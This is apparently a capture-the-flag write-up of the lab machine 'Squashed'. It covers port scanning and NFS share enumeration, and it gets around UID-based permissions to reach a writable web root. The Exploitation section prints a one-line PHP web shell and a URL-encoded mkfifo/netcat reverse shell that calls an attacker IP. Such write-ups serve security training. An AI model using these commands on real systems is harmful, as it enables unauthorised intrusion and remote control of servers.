 # Squashed (Easy)

<figure><img src="../../../.gitbook/assets/Squashed.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine

{% embed url="https://www.revshells.com/" %}

* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

{% embed url="https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" %}

If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

### Local enumeration

### PrivEsc vector

##

